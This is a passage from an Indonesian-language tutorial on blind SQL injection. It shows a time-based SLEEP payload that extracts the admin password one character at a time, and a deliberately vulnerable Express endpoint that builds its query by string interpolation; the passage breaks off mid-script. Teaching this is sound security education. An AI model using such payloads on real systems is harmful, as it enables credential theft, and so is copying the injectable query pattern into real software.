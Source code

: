 Kira-kira berikut hasil query akhirnya:
```SQL
SELECT * FROM cookies WHERE flavour="chocolate chips" AND IF(SUBSTRING((SELECT password from users WHERE user='admin'),1,1)='a',SLEEP(5),0)-- -
```

Apabila hasil dari eksfiltrasi data itu valid, maka query akan disleep selama beberapa detik sebelum selesai. Lakukan teknik ini berungkali untuk setiap lengthnya sehingga kalian bisa mendapatkan semua data yang ada.

Perlu diperhatikan bahwa perintah sql bisa berbeda-beda setiap jenis databasenya, untuk sehingga kalian perlu menyesuaikan perintahnya dengan database yang dimiliki oleh sistem.


### Condition Based Blind SQL Injection

Condition Based Blind SQL Injection ini bisa dilakukan dengan kalian mengetahui apakah hasil dari query tersebut valid atau tidak. Bisa dengan cara apabila hasil query valid, maka ada kondisi yang ter-reflect di website, sebaliknya, maka hasilnya tidak akan tampil.

Lihatlah kode Backend berikut:
```javascript
//Kode Backend
app.get("/searchcookies", isAuthenticated, async (req, res, next) => {
  cookies = req.query.cookies;

  const query = `SELECT DISTINCT * FROM cookies WHERE flavor = "${cookies}"`;

    pool.query(query, (err, result) => {
      if(err){
        return next(err)
      }
    
    if(result){
      result = "The Cookie exists"
    }

    return res.status(200).render("index", {cookies: result || ""})
    });
})
```

Frontend:
```javascript
//Kode Frontend
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Cookies</title>
</head>
<body>
    <h1>Check if ur cookies exist:</h1>
    <form id="cookieForm">
        <input type="text" name="flavor" placeholder="chocolate chip">
        <button type="submit">Search</button>
    </form>

    <h1>Here's your result:</h1>
    <ul>
        <li><%= cookies %></li>
    </ul>
</body>
<script>
    document.getElementById('cookieForm').addEventListener('submit', async function(event) {
        event.preventDefault();
```